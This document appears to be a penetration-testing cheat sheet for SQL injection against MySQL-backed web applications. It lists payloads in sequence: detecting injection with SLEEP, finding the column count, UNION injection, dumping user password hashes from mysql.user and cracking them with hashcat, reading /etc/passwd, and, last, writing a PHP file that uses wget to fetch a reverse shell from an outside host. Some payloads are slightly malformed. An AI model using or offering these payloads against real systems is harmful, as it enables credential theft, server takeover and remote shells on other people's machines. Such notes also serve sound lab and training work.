 ## Find sql injection
```
a' SLEEP(5)
a SLEEP(5)
```

## Find number of columns
```
a GROUP BY 5
```

## Use UNION to inject columns
```
999 UNION 1,2,3,4,5
```

## Get DB info
```
SELECT @@version
```

## Get mysql user details
```
SELECT GROUP_CONCAT(host,user,password) FROM mysql.user
```
### If you found mysql hash use hashcat to crack the password
```
hashcat -m 300 mysql-user.hash /usr/share/wordlists/rockyou.txt
```

### If phpmyadmin is running login using found credentials

## Use sqli to read /etc/passwd
```
LOAD_ FILE('/etc/passwd')
```

## Getting shell using sqli
```
select '<?php exec(\"wget -O /var/www/html/shell.php http://10.10.14.12:5555/php-reverse-shell.php\");?>'),3,4,5,6,7 INTO OUTFILE '/var/www/html/test4.php
```

